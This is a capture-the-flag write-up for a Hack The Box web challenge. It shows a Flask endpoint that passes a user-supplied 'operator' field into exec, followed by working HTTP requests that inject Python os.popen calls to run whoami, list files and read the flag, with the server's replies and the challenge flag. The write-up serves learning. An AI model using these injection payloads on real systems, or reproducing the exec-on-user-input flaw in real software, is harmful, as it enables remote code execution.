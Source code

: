 ```yaml
---
title: Day 1 - Web
date: 2022-11-13 12:00:00
categories: [HTB,CTF,HackTheBoo]
tags: [commandinjection,python]
---
```


# Web #1

## Summary

We are presented with an application that let's us play against a ghost that wants to destroy the fun of halloween. Our goal is to stop the ghost and get our flag

## Enumeration

### Download Resources

Let's download the associated files for our challenge and check the content

```bash
.
├── build-docker.sh
├── challenge
│   ├── application
│   │   ├── blueprints
│   │   │   └── routes.py
│   │   ├── main.py
│   │   ├── static
│   │   │   ├── css
│   │   │   │   ├── card.css
│   │   │   │   ├── game.css
│   │   │   │   └── index.css
│   │   │   ├── images
│   │   │   │   ├── alive.gif
│   │   │   │   ├── bottom-circle.png
│   │   │   │   └── dead.gif
│   │   │   └── js
│   │   │       ├── card.js
│   │   │       ├── jquery-migrate-1.2.1.js
│   │   │       ├── jquery.min.js
│   │   │       └── ui.js
│   │   ├── templates
│   │   │   └── index.html
│   │   └── util.py
│   └── run.py
├── config
│   └── supervisord.conf
├── Dockerfile
└── flag.txt
```

### Check for vulnerabilities

If you have access to the source you often don't have to start with collecting infos on the page itself. So I started with checking the source code of my target.

When it comes down to Webapps I'll start with looking for API endpoints, they often contain some sort of vulnerability

Added some comments in this example just to showcase what paremeter is vulnerable and why

**routes.py**

```python
from flask import Blueprint, render_template, request
from application.util import response

web = Blueprint('web', __name__)
api = Blueprint('api', __name__)

@web.route('/')
def index():
    return render_template('index.html')

@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

		# Current health of our enemy
    current_health = data.get('current_health')
    # Attack Power of the card we drew
    attack_power = data.get('attack_power')
    # Did we do damage or did the target get health?
    operator = data.get('operator')

		# If any var isn't set display message "All fields are required"
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
		    # Can you spot the vulnerable parameter?
		    # int(current_health) = isn't it as this has to be an integer otherwise compile will fail
		    # int(attack_power) = isn't it as this has to be an integer otherwise compile will fail
		    # operator = is a simple string which will allow us to use it for code execution!
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        # Always an bad idea to execute stuff from user controlled input
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

## Exploitation

### POC

**POST Request**

```http
POST /api/get_health HTTP/1.1
Host: 161.35.168.67:31480
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://161.35.168.67:31480/
Content-Type: application/json
Origin: http://161.35.168.67:31480
Content-Length: 124
Connection: close

{"current_health":"100","attack_power":"1",
"operator":  ";import os;cmd='whoami';test=os.popen(cmd).read();result=test;#"}
```

**Response**

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.15
Date: Sat, 22 Oct 2022 17:04:06 GMT
Content-Type: application/json
Content-Length: 21
Connection: close

{"message":"root\n"}
```

### Flag

**Check Files - POST Request**
```http
POST /api/get_health HTTP/1.1
Host: 161.35.168.67:31480
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://161.35.168.67:31480/
Content-Type: application/json
Origin: http://161.35.168.67:31480
Content-Length: 122
Connection: close

{"current_health":"100","attack_power":"1",
"operator":  ";import os;cmd='ls /';test=os.popen(cmd).read();result=test;#"}
```

**Check Files - Response**

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.15
Date: Sat, 22 Oct 2022 17:04:19 GMT
Content-Type: application/json
Content-Length: 121
Connection: close

{"message":"app\nbin\ndev\netc\nflag.txt\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"}
```

**Display Flag - POST Request**

```http
POST /api/get_health HTTP/1.1
Host: 161.35.168.67:31480
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://161.35.168.67:31480/
Content-Type: application/json
Origin: http://161.35.168.67:31480
Content-Length: 131
Connection: close

{"current_health":"100","attack_power":"1",
"operator":  ";import os;cmd='cat /flag.txt';test=os.popen(cmd).read();result=test;#"}
```

**Display Flag - Response**

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.15
Date: Sat, 22 Oct 2022 17:04:32 GMT
Content-Type: application/json
Content-Length: 47
Connection: close

{"message":"HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}"}
```